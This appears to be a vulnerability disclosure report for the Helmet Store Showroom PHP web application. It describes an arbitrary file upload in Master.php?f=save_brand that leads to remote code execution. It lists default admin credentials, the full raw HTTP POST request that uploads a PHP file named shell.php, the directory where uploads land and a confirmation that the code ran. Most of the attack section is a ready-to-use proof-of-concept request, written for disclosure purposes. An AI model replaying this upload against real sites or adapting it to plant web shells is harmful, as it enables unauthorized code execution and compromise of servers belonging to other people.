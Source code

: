 # Helmet Store Showroom Site System -  arbitrary code execution (RCE)

A vulnerability classified as problematic was found in Helmet Store Showroom Site System. This vulnerability affects $save_brand code. The manipulation of the argument /classes/Master.php file exists arbitrary file upload (RCE)

username:admin password:admin123 ----> {ip}/classes/Master.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

Vulnerability url:  http://localhost/CVE/hss/classes/Master.php?f=save_brand

Payload:
```php
<?php
phpinfo();
?>
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/15.png)

## Payload

Request package for file upload：

```s
POST http://localhost/CVE/hss/classes/Master.php?f=save_brand HTTP/1.1
Host: localhost
Content-Length: 1117
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryi35xdW2iqFM0SvW8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/CVE/hss/admin/?page=brands
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Connection: close

------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="name"

test
------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryi35xdW2iqFM0SvW8
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryi35xdW2iqFM0SvW8--

```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/11.png)

The files will be uploaded to this directory \hss\uploads\brands

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/16.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/17.png)